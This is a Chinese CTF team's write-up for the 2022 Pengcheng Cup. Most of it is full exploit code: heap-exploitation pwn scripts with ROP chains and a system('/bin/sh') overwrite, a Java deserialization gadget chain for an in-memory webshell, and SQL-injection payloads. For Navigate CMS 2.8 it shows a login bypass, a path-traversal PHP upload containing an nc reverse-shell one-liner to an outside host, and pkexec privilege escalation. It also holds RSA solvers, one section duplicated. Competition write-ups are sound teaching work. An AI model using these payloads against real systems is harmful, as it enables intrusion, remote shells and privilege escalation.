以下是我们 SU 本次2022 鹏城杯 的 writeup 
同时我们也在持续招人，只要你拥有一颗热爱 CTF 的心，都可以加入我们！欢迎发送个人简介至：[suers_xctf@126.com](mailto:suers_xctf@126.com)或直接联系书鱼(QQ:381382770)

<!--more-->


## pwn

### rainbowcat

**hijack tcache struct + largebin attack + house of pig + orw**`

```python
from pwn import *
context(os = "linux", arch = "amd64")

#p = process("./pwn")
p = remote("192.168.1.102", 9999)
libc = ELF("./libc-2.33.so")

def new(idx):
	p.recvuntil(">> ")
	p.sendline(str(1))
	p.recvuntil("get? ")
	p.sendline(str(idx))

def free(idx):
	p.recvuntil(">> ")
	p.sendline(str(2))
	p.recvuntil("abandon? ")
	p.sendline(str(idx))

def show(idx):
	p.recvuntil(">> ")
	p.sendline(str(3))
	p.recvuntil("name: ")
	p.sendline(str(idx))

def edit(idx, content):
	p.recvuntil(">> ")
	p.sendline(str(4))
	p.recvuntil("one?")
	p.sendline(str(idx))
	p.recvuntil("cat: ")
	p.send(content)

if __name__ == '__main__':
	new(0); new(1)
	for i in range(0x66):
		new(2)
	free(0); show(0)
	p.recvuntil("Name:")
	key = u64(p.recv(5).ljust(8, b'\x00')); heap_base = key << 12
	
	edit(0, p64(0)*2); free(0); edit(0, p64((heap_base + 0x10) ^ key) + p64(0))
	new(0); new(0); edit(0, p64(0)*2)
	
	free(1); edit(1, p64(0)*2); free(1); edit(1, p64(key ^ (heap_base + 0x90)) + p64(0))
	new(1); new(1)
	
	edit(0, p64(3) + p64(0)); edit(1, p64(heap_base + 0x350))
	new(2); edit(2, p64(0) + p64(0x431)); edit(1, p64(heap_base + 0x780))
	new(2); edit(2, p64(0) + p64(0x31)); edit(1, p64(heap_base + 0x360))
	new(2); free(2); show(2)
	p.recvuntil("Name:")
	libc_base = u64(p.recv(6).ljust(8, b'\x00')) - 0x1e0c00
	
	edit(0, p64(2) + p64(0)); edit(1, p64(heap_base + 0x290))
	new(2); edit(2, p64(0) + p64(0xa1)); edit(1, p64(heap_base + 0x2a0))
	new(2)
	for i in range(7):
		free(2); edit(2, p64(0)*2)
	free(2); new(2)
	
	edit(0, p64(2) + p64(0)); edit(1, p64(heap_base + 0x7b0))
	new(2); edit(2, p64(0) + p64(0x421)); edit(1, p64(heap_base + 0x7c0))
	new(2); free(2)
	
	edit(0, p64(1) + p64(0)); edit(1, p64(heap_base + 0x370))
	new(2); edit(2, p64(0) + p64(libc_base + libc.sym['_IO_list_all'] - 0x20))
	new(2)

	free_hook_addr = libc_base + libc.sym['__free_hook']
	gadget = libc_base + 0x14a0a0
	_IO_str_jumps = libc_base + 0x1e2560
	srop_address = heap_base + 0x360
	FAKE_IO = heap_base + 0x7b0
	
	IO = b'\x00'*0x18 + p64(0xffff) + p64(0) + p64(FAKE_IO + 0xe0) + p64(FAKE_IO + 0xf8)
	IO = IO.ljust(0xc8, b'\x00') + p64(_IO_str_jumps) + p64(0) + p64(srop_address) + p64(gadget)
	edit(0, p64(0xff) + p64(0))
	for i in range(0, len(IO), 0x10) :
		edit(1, p64(heap_base + 0x7c0 + i)); new(2); edit(2, IO[i:i+0x10])
	
	pop_rdi_ret = libc_base + 0x121b1d; pop_rsi_ret = libc_base + 0x2a4cf; pop_rdx_ret = libc_base + 0xc7f32
	orw_rop = b'./flag\x00\x00' + p64(pop_rdi_ret) + p64(free_hook_addr) + p64(pop_rsi_ret) + p64(0) + p64(libc_base + libc.sym['open']) + p64(pop_rdi_ret) + p64(3) + p64(pop_rsi_ret) + p64(free_hook_addr + 0x100) + p64(pop_rdx_ret) + p64(0x50) + p64(libc_base + libc.sym['read']) + p64(pop_rdi_ret) + p64(free_hook_addr + 0x100) + p64(libc_base + libc.sym['puts'])
	
	frame = SigreturnFrame(); frame.rsp = free_hook_addr + 8; frame.rdi = 0; frame.rsi = free_hook_addr; frame.rdx = 0x100; frame.rip = libc_base + libc.sym['read']
	payload = b'\x00'*0x20 + p64(libc_base + libc.sym['setcontext'] + 61) + bytes(frame)[0x28:]
	for i in range(0, len(payload), 0x10) :
		edit(1, p64(heap_base + 0x360 + i)); new(2); edit(2, payload[i:i+0x10])
	
	edit(1, p64(heap_base + 0x20)); new(2); edit(2, p64(0xffff))
	edit(1, p64(heap_base + 0xd0)); new(2); edit(2, p64(libc_base + libc.sym['__free_hook'] - 0x10))
	edit(1, p64(libc_base + libc.sym['__malloc_hook'])); new(2)
	p.send(orw_rop)
	p.interactive()
```


### arm_protocol

绕过md5后是一个菜单，分别有add，show，delete,edit选项，在edit时有off by one，利用off by one可以制造一个heap overlab，再任意地址申请到got表上泄漏libc，最后把puts指针改为system。

```python
#/usr/bin/env python
#-*-coding:utf-8-*-

from pwn import *
import base64
import signal
import random
import os
import time
import string
import hashlib

proc="./arm_protocol"

elf=ELF(proc)


def passcheck(hash_value):
	while 1:
		answer = 'A'
		answer +=''.join(random.choice(string.ascii_letters + string.digits) for i in range(6))
		md5 = hashlib.md5()
		md5.update(answer)
		hashresult = md5.hexdigest()
		if hashresult.startswith(hash_value):
			log.info("hash :"+hashresult)
			log.info("answer: " +answer)
			return answer

def fix(msg,choose,add, idx):
	msg = msg.ljust((0x4b-0x10-0x3),"\x00")
	header = p32(0x11451400)
	p8_12 = p32(add) # Add
	p12_16 = p32(idx)
	int_p4_8 = add ^ idx
	for i in msg:
		int_p4_8 ^= ord(i)
	p4_8 = p32(int_p4_8)
	log.info("p4_8 :" + hex(int_p4_8))
	payload = header + p4_8 + p8_12 + p12_16 + msg +choose
	log.info("length of payload :"+hex(len(payload)))
	log.info("payload[0x8] Add:"+payload[0x8].encode('hex') )
	log.info("payload[0x48] Delete :"+payload[0x48].encode('hex') )
	log.info("payload[0x49] Show :"+payload[0x49].encode('hex') )
	log.info("payload[0x4a] Edit:"+payload[0x4a].encode('hex') )
	return payload

# 48
def Delete():
	return p8(1)+p8(0)+p8(0)

# 49
def Show():
	return p8(0)+p8(1)+p8(0)
# 4A
def Edit():
	return p8(0)+p8(0)+p8(1)

def pwn(ip,port,debug):
	global sh
	if debug==1:
		context.log_level="debug"
		sh=process(["qemu-arm","-L","/usr/arm-linux-gnueabi",proc])
		libc = ELF('/usr/arm-linux-gnueabi/lib/libc.so.6')
	elif debug == 2:
		context.log_level="debug"
		sh=process(["qemu-arm","-L","/usr/arm-linux-gnueabi","-g","1234",proc])
		libc = ELF('/usr/arm-linux-gnueabi/lib/libc.so.6')
	else:
		context.log_level="debug"
		sh=remote("192.168.1.104",8888)
		libc = ELF('./libc-2.27.so')

	# add 10
	md5_check = passcheck("4d8900")
	for i in range(10):
			# md5_check = "ReStr0"
		msg = "AAAAA"
		payload = fix(msg,Show(),0x10, 0)+md5_check
		sh.sendafter("Input code>\n",payload)

	# off by one
	msg = "A"*0x20+'\x41'
	payload = fix(msg,Edit(),0, 0)+md5_check
	sh.sendafter("Input code>\n",payload)

	#delete three chunk
	msg = "BBBB"
	payload = fix(msg,Delete(),0, 0)+md5_check
	sh.sendafter("Input code>\n",payload)

	msg = "BBBB"
	payload = fix(msg,Delete(),0, 2)+md5_check
	sh.sendafter("Input code>\n",payload)

	#heap overlap
	msg = "BBBB"
	payload = fix(msg,Delete(),0, 1)+md5_check
	sh.sendafter("Input code>\n",payload)


	#x/20wx 0x24150
	msg = "B"*0x10 + p32(0xdeadbeef)
	payload = fix(msg,Show(),0x30, 0)+md5_check
	sh.sendafter("Input code>\n",payload)

	free_got = 0x00023014
	strlen_got = 0x00023034
	strcmp_got = 0x0002300c

	msg = "B"*0x18 + p32(strcmp_got-8)
	payload = fix(msg,Edit(),0, 0)+md5_check
	sh.sendafter("Input code>\n",payload)


	log.success('free_offset: ' + hex(libc.sym['free']))
	log.success('system_offset: ' + hex(libc.sym['system']))
	

	#add 1 victim chunk
	msg = "B"
	payload = fix(msg,Show(),0x10, 0)+md5_check
	sh.sendafter("Input code>\n",payload)

	# #add 2 target chunk
	msg = "B"
	payload = fix(msg,Show(),0x10, 0)+md5_check
	sh.sendafter("Input code>\n",payload)

	# leak libc
	msg = "C"
	payload = fix(msg,Show(),0, 2)+md5_check
	sh.sendafter("Input code>\n",payload)

	libc_base = u32(sh.recv(4)) - libc.sym['strcmp']

	log.success('libc_base: ' + hex(libc_base))

	system_addr = libc_base + libc.sym['system']
	binsh_addr = libc_base + libc.search("/bin/sh").next()

	msg = "F"*0x18 + p32(system_addr) + p32(binsh_addr)
	payload = fix(msg,Edit(),0, 0)+md5_check
	sh.sendafter("Input code>\n",payload)

	msg = "End"
	payload = fix(msg,Show(),0, 1)+md5_check
	sh.sendafter("Input code>\n",payload)

	sh.interactive()

if __name__ =="__main__":
	pwn('192.168.1.104',8888,3)
```

### fruitshop

uaf，直接house of pig一把梭。

```python
from pwn import *
import warnings

warnings.filterwarnings("ignore")

# context.aslr = False

def add(fruit, index, content):
    r.sendafter("> \x00", "1")
    r.sendafter("(new):\n", fruit)
    r.sendafter("index:\n", str(index))
    r.sendafter("Content:\n\x00", content)

def edit(fruit, index, content):
    r.sendafter("> \x00", "2")
    r.sendafter("(edit):\n", fruit)
    r.sendafter("idx:\n", str(index))
    r.sendafter("Content:\n\x00", content)

def edit_Apple(index, content):
    r.sendafter("> \x00", "2")
    r.sendafter("(edit):\n", "Apple")
    r.sendafter("idx:\n", str(index))
    r.sendafter("Do~\n", content[:0x200])
    r.sendafter("Re~\n", content[0x200:0x200+0xAB0])
    r.sendafter("Mi~\n", content[0x200+0xAB0:0x200+0xAB0+0x100])
    r.sendafter("Fa~\n", content[0x200+0xAB0+0x100:])

def delete(fruit, index):
    r.sendafter("> \x00", "4")
    r.sendafter("(delete):\n", fruit)
    r.sendafter("idx:\n", str(index))

def show(fruit, index):
    r.sendafter("> \x00", "3")
    r.sendafter("(show):\n", fruit)
    r.sendafter("idx:\n", str(index))

# r = process("./pwn")
r = remote("192.168.1.107", "8888")

add("Apple", 0, "a")
add("Apple", 1, "a")
add("Durian", 0, "a")
delete("Apple", 0)
delete("Apple", 1)
add("Banana", 0, "a")
add("Banana", 1, "a")
add("Durian", 1, "a")
add("Apple", 2, "a")
add("Durian", 1, "a")
add("Durian", 2, "a")
delete("Durian", 0)
delete("Apple", 2)

show("Durian", 0)
heap = u64((r.recvuntil("What do you want to do?")[:-(23 + 0x110 - 0x10)])[-8:]) - 0x10
print("heap: " + hex(heap))
show("Apple", 2)
libc = u64((r.recvuntil("What do you want to do?")[:-(23 + 0xDD0 - 0x10)])[-8:]) + 0x15555531a000 - 0x155555506be0
_IO_str_jumps = 0x155555503560 - 0x15555531a000 + libc
_IO_list_all = libc + 0x1ed5a0
__free_hook = libc + 0x1eee48
print("libc: " + hex(libc))

add("Cherry", 0, "a")

delete("Banana", 1)
payload = p64(0x1555555071e0 - 0x15555531a000 + libc) * 2 + p64(0) + p64(__free_hook - 0x20 - 0x8)
r.sendafter("> \x00", "2")
r.sendafter("(edit):\n", "Apple")
r.sendafter("idx:\n", str(2))
r.sendafter("Do~\n", payload)
r.sendafter("Re~\n", "a")
r.sendafter("Mi~\n", "a")
r.sendafter("Fa~\n", "a")

add("Cherry", 0, "a")

edit("Banana", 1, p64(0x1555555071e0 - 0x15555531a000 + libc) + p64(heap + 0x1f70) * 3)
payload = p64(heap + 0xf50) + p64(0x1555555071e0 - 0x15555531a000 + libc) + p64(heap + 0xf50) * 2
r.sendafter("> \x00", "2")
r.sendafter("(edit):\n", "Apple")
r.sendafter("idx:\n", str(2))
r.sendafter("Do~\n", payload)
r.sendafter("Re~\n", "a")
r.sendafter("Mi~\n", "a")
r.sendafter("Fa~\n", "a")

add("Banana", 1, "a")
add("Apple", 2, "a")

delete("Apple", 2)
add("Cherry", 0, "a")
delete("Banana", 1)
payload = p64(0x1555555071e0 - 0x15555531a000 + libc) * 2 + p64(0) + p64(_IO_list_all - 0x20)
r.sendafter("> \x00", "2")
r.sendafter("(edit):\n", "Apple")
r.sendafter("idx:\n", str(2))
r.sendafter("Do~\n", payload)
r.sendafter("Re~\n", "a")
r.sendafter("Mi~\n", "a")
r.sendafter("Fa~\n", "a")

add("Cherry", 0, "a")

edit("Banana", 1, p64(0x1555555071e0 - 0x15555531a000 + libc) + p64(heap + 0x1f70) * 3)
payload = p64(heap + 0xf50) + p64(0x1555555071e0 - 0x15555531a000 + libc) + p64(heap + 0xf50) * 2
r.sendafter("> \x00", "2")
r.sendafter("(edit):\n", "Apple")
r.sendafter("idx:\n", str(2))
r.sendafter("Do~\n", payload)
r.sendafter("Re~\n", "a")
r.sendafter("Mi~\n", "a")
r.sendafter("Fa~\n", "a")

add("Banana", 1, "a")
add("Apple", 2, "a")

for i in range(4):
    add("Durian", 0, "a")
    delete("Durian", 0)

add("Apple", 0, "a")
add("Durian", 3, "a")
delete("Banana", 0)
delete("Banana", 1)
add("Apple", 1, "a")
add("Durian", 3, "a")
delete("Apple", 0)
add("Banana", 2, "a")
add("Cherry", 0, "a")
delete("Apple", 1)
add("Banana", 2, "a")
add("Cherry", 0, "a")

edit("Banana", 1, p64(heap + 0x7930) + p64(__free_hook - 0x20))

add("Durian", 0, "a")

payload = p64(0) * 3 + p64(0x56) + p64(0)
#0x38
payload += p64(heap + 0xfa0) + p64(heap + 0xfa0 + 0x53)
#0x38  _IO_buf_base
#0x40  _IO_buf_end
payload = payload.ljust(0x40, b'\x00')
payload += b"/bin/sh\x00"+  p64(0) + p64(libc + 0x52290)
payload = payload.ljust(0xc8, b'\x00')
payload += p64(_IO_str_jumps)
edit("Banana", 1, payload)

#_IO_cleanup
#_IO_flush_all_lockp
#_IO_str_overflow
#_IO_str_overflow + 120
# gdb.attach(r, "b *(_IO_str_overflow + 120)")

# sleep(1)

r.sendafter("> \x00", "quit")

r.interactive()
```

## crypto

### easy_rsa

flag分成三部分了，第一部分e和phi不互素，所以求一下gcd(e,phi)，再解就行；

第二部分一元copper的p高位攻击，恢复p再求q；

第三部分c和n公因数就是p，直接求公因数解。

```python
from Crypto.Util.number import *
from gmpy2 import *
​
dic1 =  {'c': '27455f081e4858790c6503580dad3302ae359c9fb46dc601eee98f05142128404e95377324720adbbdebf428549008bcd1b670f6749592a171b30316ab707004b9999f3b80de32843afdfd30505b1f4166a03cee9fc48902b74b6e850cfd268e6917c5d84e64f7e7cd0e4a30bfe5903fb5d821d27fdc817d9c4536a8e7aea55af266abcae857a8ffff2f741901baba1b44091a137c69c471c123ab0b80e250e055959c468e6e37c005105ecd7c8b48c659024e5e251df3eeff5da7b3d561cd98150da3575a16bee5f2524d2795fd4879487018345c1e96efc085ed45fb5f02c027aee5bca3aad0eb3e23376c0cd18b02fb05a1ff8fb1af0a3ce4bb671599894e', 'p': 'bb602e402b68a5cfcc5cfcc63cc82e362e98cb7043817e3421599a4bb8755777c362813742852dad4fec7ec33f1faec04926f0c253f56ab4c4dde6d71627fbc9ef42425b70e5ecd55314e744aa66653103b7d1ba86d1e0e21920a0bfe7d598bd09c3c377a3268928b953005450857c6cfea5bfdd7c16305baed0f0a31ad688bd', 'q': 'bb8d1ea24a3462ae6ec28e79f96a95770d726144afc95ffffa19c7c3a3786a6acc3309820ba7b1a28a4f111082e69e558b27405613e115139b38e799c723ab7fdd7be14b330b118ae60e3b44483a4c94a556e810ab94bbb102286d0100d7c20e7494e20e0c1030e016603bd2a06c1f6e92998ab68e2d420faf47f3ee687fb6d1', 'e': '292'}
dic2 =  {'c': '3a80caebcee814e74a9d3d81b08b1130bed6edde2c0161799e1116ab837424fbc1a234b9765edfc47a9d634e1868105d4458c9b9a0d399b870adbaa2337ac62940ade08daa8a7492cdedf854d4d3a05705db3651211a1ec623a10bd60596e891ccc7b9364fbf2e306404aa2392f5598694dec0b8f7efc66e94e3f8a6f372d833941a2235ebf2fc77c163abcac274836380045b63cc9904d9b13c0935040eda6462b99dd01e8230fdfe2871124306e7bca5b356d16796351db37ec4e574137c926a4e07a2bfe76b9cbbfa4b5b010d678804df3e2f23b4ec42b8c8433fa4811bf1dc231855bea4225683529fad54a9b539fe824931b4fdafab67034e57338217f', 'p': 'a9cb9e2eb43f17ad6734356db18ad744600d0c19449fc62b25db7291f24c480217d60a7f87252d890b97a38cc6943740ac344233446eea4084c1ba7ea5b7cf2399d42650b2a3f0302bab81295abfd7cacf248de62d3c63482c5ea8ab6b25cdbebc83eae855c1d07a8cf0408c2b721e43c4ac53262bf9aaf7a000000000000000', 'e': '10001', 'n': '841a5a012c104e600eca17b451d5fd37c063ad347707a2e88f36a07e9ad4687302790466e99f35b11580cbe8b0a212e6709686c464a6393c5895b1f97885f23ea12d2069eb6dc3cb4199fb8c6e80a4a94561c6c3499c3c02d9dc9cf216c0f44dc91701a6d9ec89981f261a139500420a51014492f1da588a26e761439dd5739b32540ca6dc1ec3b035043bc535304a06ccb489f72fcd1aa856e1cffe195039176937f9a16bd19030d1e00095f1fd977cf4f23e47b55650ca4712d1eb089d92df032e5180d05311c938a44decc6070cd01af4c6144cdab2526e5cb919a1828bec6a4f3332bf1fa4f1c9d3516fbb158fd4fbcf8b0e67eff944efa97f5b24f9aa65'}
dic3 =  {'c': '1bd2a47a5d275ba6356e1e2bd10d6c870693be540e9318c746e807a7672f3a75cc63841170126d7dba52d7f6f9cf0f8dce9705fc1785cc670b2658b05d4b24d8918f95594844bfa920c8ffe73160c2c313b3fdbc4541ec19828165e34afa7d05271cc6fd59d08138b88c11677e6ac3b39cff525dcb19694b0388d895f53805a5e5bd8cfb947080e4855aaf83ebd85a397526f7d76d26031386900cb44a2e4bd121412bcee7a6c1e9af411e234f130e68a428596265d3ec647e50f65cb81393f4bd38389a2b9010fd715582506b9054dc235aced50757462b77a5606f116853af0c1ea3c7cf0d304f885d86081f8bac8b67b0625122f75448c5b6eb8f1cc8a0df', 'n': 'c2b17c86a8950f6dafe0a633890e4271cfb20c5ffda2d6b3d035afa655ed05ec16c67b18832ed887f2cea83056af079cc75c2ce43c90cce3ed02c2e07d256f240344f1734adeee6dc2b3b4bbf6dcfc68518d0a74e3e66f1865db95ef4204457e6471903c2321ac97f3b8e3d8d935896e9fc9145a30a3e24e7c320490a9944c1e94d301c8388445532699e6189f4aa6a86f67f1d9b8fb0de4225e005bd27594cd33e36622b2cd8eb2781f0c24d33267d9f29309158942b681aab81f39d1b4a73bd17431b46a89a0e4c2c58b1e24e850355c63b72392600d3fff7a16f6ef80ea515709da3ef1d28782882b0dd2f76bf609590db31979c5d1fd03f75d9d8f1c5069', 'e': '10001'}

e1 = int(dic1['e'],16)
c1 = int(dic1['c'],16)
p1 = int(dic1['p'],16)
q1 = int(dic1['q'],16)
phi1 = (p1-1)*(q1-1)
t = gcd(phi1,e1)

d1 = invert(e1//t,phi1)
m1 = long_to_bytes(iroot(pow(c1,d1,p1*q1),t)[0])

e2 = int(dic2['e'],16)
ph = int(dic2['p'],16)
n = int(dic2['n'],16)
c2 = int(dic2['c'],16)

p = 119234372387564173916926418564504307771905987823894721284221707768770334474240277144999791051191061404002537779694672314673997030282474914206610847346023297970473719280866108677835517943804329212840618914863288766846702119011361533150365876285203805100986025166317939702179911918098037294325448226481818486521
q = n//p
phi2 = (p-1)*(q-1)
d2 = invert(e2,phi2)
m2 = long_to_bytes(pow(c2,d2,n))
​
e3 = int(dic3['e'],16)
c3 = int(dic3['c'],16)
n3 = int(dic3['n'],16)
gg = gcd(n3,c3)
q3 = n3//gg

phi3 = (gg-1)*(q3-1)
d3 = invert(e3,phi3)
M = pow(c3,d3,n3)
# M = 2022 * m * 1011 * p
m3 = M//2022//gg//1011
m3 = long_to_bytes(m3)

print(m1+m2+m3)
# b'PCL{16745c3b0c134c83b74f977260aae9b5}'

# 第二部分sage求p
n = 16676450704117406984592025063850900053789376003399190311720188158488886691280209555175830133393912861925677252847063707907536810656295135435030437243734401026617255634459734936796594942776689510859440558194110373664718925429745882204691083430639740384638701716026693412425164473472213091425769296148093070149231932577216369178892250824397978684233626964889041865056363294707998482306347934376164838745527260555009869036640749099896227929806275810818204261768115257353261726117067560402676352095817968864707164594118005516052080082446065707283304316695188972531988085450543617829295860842249432419321698844088907442789
p_fake = 119234372387564173916926418564504307771905987823894721284221707768770334474240277144999791051191061404002537779694672314673997030282474914206610847346023297970473719280866108677835517943804329212840618914863288766846702119011361533150365876285203805100986025166317939702179911918098037294324990096966084984832

# pbits = 2048
pbits = p_fake.nbits()
# kbits = 900
kbits = 60  # p失去的低位
pbar = p_fake & (2 ^ pbits - 2 ^ kbits)

PR. < x > = PolynomialRing(Zmod(n))
f = x + pbar

x0 = f.small_roots(X=2 ^ kbits, beta=0.4)[0]  # find root < 2^kbits with factor >= n^0.3
p = x0 + pbar
print(p)
baby_rsa
根据题目条件，2^e=y(modn)，所以可以直接分解2^e-y，得到比较大的就是p，大小在16位附近的就是q；最后利用威尔逊定理处理一下模同余就行。
import gmpy2

y=4513855932190587780512692251070948513905472536079140708186519998265613363916408288602023081671609336332823271976169443708346965729874135535872958782973382975364993581165018591335971709648749814573285241290480406050308656233944927823668976933579733318618949138978777831374262042028072274386196484449175052332019377
e=1049
#print(2**e-y)
#6027543349128250261061611850906664728536346779212426641088428544963356731129810885082371555056594134371892601742424667721105193534249189043570046638983977639217990098126731016259348067349430430582215063864805103884037137420179826541116808264617091019826898653792245614592655285387965751855503038673696439312640921935
​
c=3303523331971096467930886326777599963627226774247658707743111351666869650815726173155008595010291772118253071226982001526457616278548388482820628617705073304972902604395335278436888382882457685710065067829657299760804647364231959804889954665450340608878490911738748836150745677968305248021749608323124958372559270
p=170229264879724117919007372149468684565431232721075153274808454126426741324966131188484635914814926870341378228417496808202497615585946352638507704855332363766887139815236730403246238633855524068161116748612090155595549964229654262432946553891601975628848891407847198187453488358420350203927771308228162321231
q=34211
​
n=p*q
phi=(p-1)*(q-1)
d=gmpy2.invert(e,phi)
cc=pow(c,d,n)
k=gmpy2.invert(gmpy2.fac(q),p)
m=cc*gmpy2.invert(k,p)%p
print(bytes.fromhex(hex(m)[2:]))
#flag{7h3_73rr1b13_7h1ng_15_7h47_7h3_p457_c4n'7_b3_70rn_0u7_by_175_r0075}
```

### baby_rsa

根据题目条件，2^e=y(modn)，所以可以直接分解2^e-y，得到比较大的就是p，大小在16位附近的就是q；最后利用威尔逊定理处理一下模同余就行。

```
import gmpy2

y=4513855932190587780512692251070948513905472536079140708186519998265613363916408288602023081671609336332823271976169443708346965729874135535872958782973382975364993581165018591335971709648749814573285241290480406050308656233944927823668976933579733318618949138978777831374262042028072274386196484449175052332019377
e=1049
#print(2**e-y)
#6027543349128250261061611850906664728536346779212426641088428544963356731129810885082371555056594134371892601742424667721105193534249189043570046638983977639217990098126731016259348067349430430582215063864805103884037137420179826541116808264617091019826898653792245614592655285387965751855503038673696439312640921935
​
c=3303523331971096467930886326777599963627226774247658707743111351666869650815726173155008595010291772118253071226982001526457616278548388482820628617705073304972902604395335278436888382882457685710065067829657299760804647364231959804889954665450340608878490911738748836150745677968305248021749608323124958372559270
p=170229264879724117919007372149468684565431232721075153274808454126426741324966131188484635914814926870341378228417496808202497615585946352638507704855332363766887139815236730403246238633855524068161116748612090155595549964229654262432946553891601975628848891407847198187453488358420350203927771308228162321231
q=34211
​
n=p*q
phi=(p-1)*(q-1)
d=gmpy2.invert(e,phi)
cc=pow(c,d,n)
k=gmpy2.invert(gmpy2.fac(q),p)
m=cc*gmpy2.invert(k,p)%p
print(bytes.fromhex(hex(m)[2:]))
#flag{7h3_73rr1b13_7h1ng_15_7h47_7h3_p457_c4n'7_b3_70rn_0u7_by_175_r0075}
```

## web

### 简单包含

多传一个文件 用 分块来传输 

```
POST / HTTP/1.1
Content-type: multipart/form-data; boundary=--------------------------55split
User-Agent: Firefox
Accept: */*
Host: 192.168.1.113
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 362
 
----------------------------55split
Content-Disposition: form-data; name=""; filename="1.py"
Content-Type: application/octet-stream
 
HWO
----------------------------55split
Content-Disposition: form-data; name="flag"
Content-Type: application/octet-stream
 
php://filter/read=convert.base64-encode/resource=flag.php
----------------------------55split--
```

拿到base64的php文件 解码就有

### 简单php

只能无参数执行，那么利用url取反加二维数组绕过,使用end(getallheaders())来取命令去执行





### Ez_java

存在反序列化黑名单



但是存在cb依赖



可以尝试调用SignedObject的getobject二次反序列化

```
final Object templates = Gadgets.createTemplatesImpl(command);
// mock method name until armed
final BeanComparator comparator = new BeanComparator("lowestSetBit");

// create queue with numbers and basic comparator
final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
// stub data for replacement later
queue.add(new BigInteger("1"));
queue.add(new BigInteger("1"));

// switch method called by comparator
Reflections.setFieldValue(comparator, "property", "object");

// switch contents of queue
final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");

ConstantTransformer constant = new ConstantTransformer(String.class);
// mock method name until armed
Class[] paramTypes = new Class[] { String.class };
Object[] args = new Object[] { "foo" };
InstantiateTransformer instantiate = new InstantiateTransformer(
    paramTypes, args);

// grab defensively copied arrays
paramTypes = (Class[]) Reflections.getFieldValue(instantiate, "iParamTypes");
args = (Object[]) Reflections.getFieldValue(instantiate, "iArgs");

ChainedTransformer chain = new ChainedTransformer(new Transformer[] { constant, instantiate });

// create queue with numbers
PriorityQueue<Object> queue1 = new PriorityQueue<Object>(2, new TransformingComparator(chain));
queue1.add(1);
queue1.add(1);

// swap in values to arm
Reflections.setFieldValue(constant, "iConstant", TrAXFilter.class);
paramTypes[0] = Templates.class;
args[0] = templates;
KeyPairGenerator keyPairGenerator = KeyPairGenerator.getInstance("DSA");
keyPairGenerator.initialize(1024);
KeyPair keyPair = keyPairGenerator.genKeyPair();
PrivateKey privateKey = keyPair.getPrivate();
Signature signature = Signature.getInstance(privateKey.getAlgorithm());
SignedObject signedObject = new SignedObject(queue1, privateKey, signature);
queueArray[0] = signedObject;
queueArray[1] = signedObject;

return queue;
```

再使用https://github.com/Y4er/ysoserial 打内存马直接命令执行获取flag





PCL{870bf708ae428c5da3191e69b4badf6a}

### can_u_login

这里是一quine注入，要求输入和输出一样才行

参考2021的第五空间https://www.cnblogs.com/kingbridge/articles/15818673.html

这里构造payload'/**/union/**/select(REPLACE(REPLACE('"/**/union/**/select(REPLACE(REPLACE("!",CHAR(34),CHAR(39)),CHAR(33),"!"))%23',CHAR(34),CHAR(39)),CHAR(33),'"/**/union/**/select(REPLACE(REPLACE("!",CHAR(34),CHAR(39)),CHAR(33),"!"))%23'))%23

入让输入和输出一样



绕过验证获取flag   PCL{7a7a24ec-9dc5-434e-b30c-92fe2df7d626}

### 高手高手高高手

dirsearch 扫描发现 .git 利用 githacker 下载源码

切到第一版本 发现是 navigate CMS  2.8 版本 具有多种漏洞. 

可以 RCE

bypass 登陆

```
GET /login.php HTTP/1.1
Host: 192.168.1.116
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: navigate-user=\' or TRUE # ;
Connection: close
```

授权 RCE

```
POST /navigate_upload.php?session_id=5b62jp0rgrcqc8e337c0pnv7o4&engine=picnik&id=....//....//....//navigate_info.php HTTP/1.1
Host: 192.168.1.116
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: navigate-tinymce-scroll=%7B%7D; navigate-language=en; NVSID_7da51544=5b62jp0rgrcqc8e337c0pnv7o4; 
Connection: close
Content-Type: multipart/form-data; boundary=--------------------------114514
Content-Length: 352

----------------------------114514
Content-Disposition: form-data; name="file"; filename="a.php"
Content-Type: application/x-httpd-php

<?php
var_dump($_POST);
system("ls -al");
// # system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.28.0.4 4443 >/tmp/f");
?>
----------------------------114514--
```

用 注释中的内容 RCE 反弹 Shell 触发 RCE

```
POST /navigate_info.php HTTP/1.1
Host: 192.168.1.116
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: NVSID_7da51544=5b62jp0rgrcqc8e337c0pnv7o4; 
Connection: close
Content-Length: 4

cmd=ls
```

然后 拿到 反弹回来的 Shell 

写入 Linpeas 检查提权情况

发现 pkexec 提权 CVE-2021-4034

然后下载纯 C 代码 版本进行提权

发现 假 flag

```
cat flag
a48,a35,a44,a91,a19,a65,a21,a69,a69,a67,a13,a18,a20,a65,a21,a13,a19,a23,a65,a69,a13,a20,a67,a17,a18,a13,a25,a17,a65,a69,a17,a68,a19,a19,a68,a18,a65,a17,a93
```

发现 I_want_capture_the_flag 文件为 ELF

逆向后 发现需要去掉 bocai 文件   然后进行删除

```
lsattr
---------------- ./cache
---------------- ./cfg
---------------- ./crossdomain.xml
---------------- ./css
---------------- ./favicon.ico
---------------- ./images
---------------- ./img
---------------- ./index.html
---------------- ./index.php
---------------- ./js
